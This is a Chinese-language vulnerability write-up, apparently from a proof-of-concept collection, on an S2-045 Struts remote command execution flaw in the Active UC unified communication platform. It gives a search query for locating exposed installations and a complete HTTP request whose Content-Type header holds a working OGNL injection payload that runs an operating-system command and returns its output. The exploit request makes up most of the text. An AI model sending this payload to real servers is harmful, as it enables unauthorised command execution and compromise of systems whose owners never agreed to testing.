


# Active UC index.action 远程命令执行漏洞

## 漏洞描述

网动统一通信平台 Active UC index.action 存在S2-045远程命令执行漏洞, 通过漏洞可以执行任意命令

## 漏洞影响

```
Active UC
```

## 网络测绘

```
title="网动统一通信平台(Active UC)"
```

## 漏洞复现

登录页面如下




发送如下请求包

```plain
POST /acenter/index.action HTTP/1.1
Cookie: SessionId=96F3F15432E0660E0654B1CE240C4C36
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1)
Charsert: UTF-8
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}; boundary=---------------------------18012721719170
Cache-Control: no-cache
Pragma: no-cache
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 196

-----------------------------18012721719170
Content-Disposition: form-data; name="pocfile"; filename="text.txt"
Content-Type: text/plain

xxxxxxx
-----------------------------18012721719170
```

